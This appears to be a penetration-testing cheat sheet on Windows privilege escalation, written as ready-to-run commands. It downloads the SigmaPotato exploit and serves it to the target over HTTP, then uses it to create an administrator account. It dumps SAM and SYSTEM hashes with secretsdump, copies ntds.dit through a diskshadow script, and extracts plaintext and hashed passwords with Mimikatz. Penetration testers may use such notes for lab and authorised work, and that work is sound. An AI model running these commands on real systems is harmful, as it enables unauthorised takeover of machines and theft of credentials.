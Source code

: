 # Enumerate Privileges of current user
```batch
whoami /priv
```
# Privileges known to lead to Privilege Escalation
* SeImpersonatePrivilege
* SeBackupPrivilege
* SeAssignPrimaryToken
* SeLoadDriver
* SeDebug

In most configurations, IIS (Windows Webserver) will run as LocalService, LocalSystem, NetworkService, or ApplicationPoolIdentity, which all have SeImpersonatePrivilege assigned.

This also applies to other Windows services.
# SeImpersonatePrivilege
To exploit this privilege, SigmaPotato (or other "potato" exploits) can be used to trick "NT AUTHORITY\SYSTEM" into authenticating into a malicious named pipe, allowing us to execute commands as them.
```bash
wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe
```
```bash
python -m http.server 80
```
```powershell
iwr -uri http://$(IP_ADDRESS)/SigmaPotato.exe -OutFile SigmaPotato.exe
```
```powershell
.\SigmaPotato "net user dave4 lab /add"
```
```powershell
.\SigmaPotato "net localgroup Administrators dave4 /add"
```
# SeBackupPrivilege
Domain Controllers won't store passwords in SAM but NTDS.dit - however old passwords could still be there. Always run BOTH on DC.
## Local Windows
```
mkdir C:\temp
```
```
reg save HKLM\SAM SAM
```
```
reg save HKLM\SYSTEM SYSTEM
```
Then transfer the sam and system files to kali (i.e. download on winrm, shared folder on xfreerdp, etc).

Then run the following to dump hashes:
```bash
impacket-secretsdump local -sam SAM -system SYSTEM
```
## Domain Controller
Save this as diskshadow.txt:
```
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% E:
end backup
```
```
unix2dos diskshadow.txt
```
Upload the created file to the target.

On the remote target, run the following:
```
mkdir C:\temp
```
```
diskshadow /s diskshadow.txt
```
```
robocopy /b E:\Windows\ntds . ntds.dit
```
Transfer ntds.dit from the target to the attacker machine.
# Mimikatz
If a user has either of the following privileges, mimikatz can be used:
* SeImpersonatePrivilege
* SeDebugPrivilege

Once mimikatz is transferred to the target windows device, run it as administrator via powershell.

Enable SeDebugPrivilege (require for dumping passwords):
```
privilege::debug
```
Elevate privileges to SYSTEM (also required):
```
token::elevate
```
Dump plaintext and hashed passwords from ALL sources:
```
sekurlsa::logonpasswords
```
Dump only NTLM hashes from SAM database:
```
lsadump::sam
```
# Meterpreter
```
getsystem
```
